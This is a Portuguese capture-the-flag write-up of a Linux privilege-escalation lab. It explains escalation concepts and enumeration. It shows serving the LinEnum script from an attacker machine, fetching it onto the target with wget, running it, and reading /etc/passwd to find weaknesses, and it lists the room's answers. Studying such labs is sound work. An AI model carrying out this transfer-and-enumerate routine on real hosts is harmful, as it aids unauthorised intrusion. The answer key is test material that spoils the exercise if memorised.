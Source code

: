 # Introdução

A room trata de técnicas comuns de elevação de privilégios em ambientes com sistema operacional baseado em Linux.
# Execução

## 1 - Ger Connected

Nesse item, apenas deve-se iniciar a VM alvo.

Não há necessidade de responder nenhuma questão.

## 2 - Understanding Privesc

O que siginifica Elevação de Privilégios (Privilege Escalation)?

De forma objetiva, é uma forma de passar de uma permissão adquirida (em uma exploração) inicialmente mais básica para um nível de permissão mais alta.

Dificilmente em um CTF ou pentest no mundo real, consegue-se obter um acesso na exploração que já tenha uma permissão de aministrador. Por isso, é importante conhecer técnicas para elevar privilégios.

Com a elevação de privilégios efetivada em um alvo, pode-se:
- Reset de senhas;
- Bypass em controles de acesso para comprometer dados protegidos;
- Editar configurações de softwares;
- Habilitar persistência de acesso, permitindo retornar ao alvo posteriormente;
- Alterar privilégios de usuários;
- Poder utilizar outros comandos que apenas o superusuário pode usar.

Neste item não necessidade de responder nenhuma questão.

## 3 - Direction of Privilege Escalation

Árvore de elevação de privilégios:
![privilege tree](images/privilege_tree.png)

Existem duas variantes principais de elevação de privilégios:

- Elevação de privilégios horizontal: é quando consegue-se mudar para outro usuário com nível de permissão similar ao usuário inicial comprometido. Há possibilidade do novo usuário possuir alguma permissão que permita elevar para um superusuário, como por exemplo, alguma permissão de SUID.

- Elevação de privilégios vertical: é quando consegue-se mudar para um usuário com mais privilégios ou mesmo um superusuário.

Neste item não há necessidade de responder questões.

## 4 - Enumeration

Enumeration ou enumeração é uma forma de listar (enumerar) possíveis fraquezas no host alvo explorado. Essa enumeração pode ser realizada manualmente com alguns comandos do próprio S.O., mas existem scripts e ferramentas que nos auxiliam nessa tarefa. 

Um script bash bastante conhecido e útil é o [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).

Algumas vezes o host alvo não possui acesso à internet, o que dificulta obter o script. Para contornar isso, existem outras formas. Uma forma é realizar o download do LinEnum na máquina do atacante, subir um serviço http e no host alvo realizar o download via comando curl ou mesmo wget.

### Enviando o LinEnum para host alvo:

1. Realize o download no host atacante com o comando wget:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/commonlinuxprivesc]
└─# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2022-07-10 10:49:23--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh           100%[===================>]  45.54K  --.-KB/s    in 0.04s   

2022-07-10 10:49:23 (1.10 MB/s) - ‘LinEnum.sh’ saved [46631/46631]

```
2. Inicie um http server usando python no diretório que se baixou o LinEnum.sh:

```shell
python3 -m http.server 8000
```
Com o comando acima, iniciou-se um server http na porta 8000.

3. Realize o download no host alvo do script LinEnum.sh com o comando:

```shell
user3@polobox:~$ wget http://10.8.95.233:8000/LinEnum.sh
```
O ip informado acima é o ip do host atacante, no qual está executando um http server na porta 8000. Saída do comando abaixo:

```shell
user3@polobox:~$ wget http://10.8.95.233:8000/LinEnum.sh
--2022-07-10 10:43:10--  http://10.8.95.233:8000/LinEnum.sh
Connecting to 10.8.95.233:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 646573 (631K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh           100%[===================>] 631.42K   209KB/s    in 3.0s    

2022-07-10 10:43:14 (209 KB/s) - ‘LinEnum.sh’ saved [646573/646573]

```

Deve-se adicionar permissão de execução no arquivo com:

```shell
user3@polobox:~$ chmod +x LinEnum.sh 
```
Para executar:

```shell
user3@polobox:~$ ./LinEnum.sh 
```

Após a execução, serão exibidas em tela uma série de informações que podem servir de ponto de partida para elevação de privilégios.

A saída do script é organizada por seções. Algumas informações importantes são versão do kernel, arquivos sensíveis/importantes com permissão de leitura e escrita, arquivos com SUID (Set owner User ID up on execution), crontab, etc.

Essas informações podem auxiliar a na elevação de privilégios.

### Questões:

- a. A primeira questão é apenas realizar uma verificação inicial no host alvo. Não há necessidade de responder nada.

- b. ***What is the target's hostname?***: *polobox*

- c. ***Look at the output of /etc/passwd how many "user[x]" are there on the system?***: *8*

Para responder a questão ***c***, basta executar:

```shell
user3@polobox:~$ cat /etc/passwd | grep user

hplip:x:113:7:HPLIP system user,,,:/var/run/hplip:/bin/false
user1:x:1000:1000:user1,,,:/home/user1:/bin/bash
user2:x:1001:1001:user2,,,:/home/user2:/bin/bash
user3:x:1002:1002:user3,,,:/home/user3:/bin/bash
user4:x:1003:1003:user4,,,:/home/user4:/bin/bash
user5:x:1004:1004:user5,,,:/home/user5:/bin/bash
user6:x:1005:1005:user6,,,:/home/user6:/bin/bash
user7:x:1006:0:user7,,,:/home/user7:/bin/bash
user8:x:1007:1007:user8,,,:/home/user8:/bin/bash
```

- d. ***How many available shells are there on the system?***: *4*

Para responder a questão ***d***, basta procurar na saída do script LinEnum.sh na seção Available Shells:

```shell
[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
```

- e. ***What is the name of the bash script that is set to run every 5 minutes by cron?***: *autoscript.sh*

Para responder a questão ***e***, basta procurar na saída da execução do LinEnum.sh pela linha:

```shell
# m h dom mon dow user  command
*/5  *    * * * root    /home/user4/Desktop/autoscript.sh
```

- f. ***What critical file has had its permissions changed to allow some users to write to it?***: */etc/passwd*

Para responder a questão ***f***, localize na saída da execução do LinEnum.sh o seguinte trecho:

```shell
[-] Can we read/write sensitive files:
-rw-rw-r-- 1 root root 2694 Mar  6  2020 /etc/passwd
-rw-r--r-- 1 root root 1087 Jun  5  2019 /etc/group
-rw-r--r-- 1 root root 581 Apr 22  2016 /etc/profile
-rw-r----- 1 root shadow 2359 Mar  6  2020 /etc/shadow
```
- g. ***Well done! Bear the results of the enumeration stage in mind as we continue to exploit the system!***: *Não há necessidade de resposta*
